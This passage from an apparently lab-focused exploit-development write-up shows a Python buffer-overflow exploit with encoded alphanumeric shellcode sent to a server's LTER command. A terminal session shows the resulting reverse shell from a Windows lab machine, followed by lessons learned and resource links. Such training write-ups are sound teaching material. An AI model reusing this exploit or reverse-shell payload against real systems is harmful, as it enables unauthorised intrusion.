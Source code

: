 ```python
"\x61\x77\x71\x4e\x6d\x42\x64\x44\x64\x46\x70\x4b\x76\x63\x30"
"\x51\x54\x42\x74\x50\x50\x73\x66\x46\x36\x72\x76\x61\x56\x72"
"\x76\x52\x6e\x62\x76\x71\x46\x30\x53\x51\x46\x62\x48\x52\x59"
"\x58\x4c\x77\x4f\x4d\x56\x69\x6f\x4a\x75\x6d\x59\x4b\x50\x62"
"\x6e\x43\x66\x50\x46\x39\x6f\x46\x50\x63\x58\x55\x58\x6b\x37"
"\x45\x4d\x63\x50\x4b\x4f\x4e\x35\x6f\x4b\x4b\x50\x47\x6d\x35"
"\x7a\x34\x4a\x62\x48\x6c\x66\x4c\x55\x6d\x6d\x6d\x4d\x4b\x4f"
"\x6e\x35\x35\x6c\x76\x66\x33\x4c\x46\x6a\x4b\x30\x49\x6b\x69"
"\x70\x62\x55\x76\x65\x4d\x6b\x53\x77\x34\x53\x43\x42\x42\x4f"
"\x33\x5a\x45\x50\x76\x33\x4b\x4f\x4e\x35\x41\x41")

buffer = "A" * 2002
buffer += "\x03\x12\x50\x62"
buffer += '\x90' * 15
buffer += shellcode
buffer += "C" * (3000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

## Conclusion

We get our reverse shell:
```terminal_session
astrid:~/ # nc -lvp 443                                                                                                                 
listening on [any] 443 ...
192.168.1.201: inverse host lookup failed: Unknown host
connect to [192.168.1.205] from (UNKNOWN) [192.168.1.201] 49293
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop>
```

We learned a lot in this one. Namely, that it's not always ideal to take what the fuzzer gives you for granted. Sometimes it's possible to alter your fuzzing string and change the nature of the exploit entirely. It's a good thing we learned this hard lesson during our prep and not during the exam. For now, we will vow vengeance on the LTER SEH overwrite, and move onto a different parameter in the next post! Thanks for reading!

## Big Thanks

To everyone who has published free intro-level 32 bit exploit dev material, I'm super appreciative. Truly mean it. 

## Resources
+ [OffSec Alphanumeric Shellcode](https://www.offensive-security.com/metasploit-unleashed/alphanumeric-shellcode/)
+ [Corelan Mona Tutorial](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)
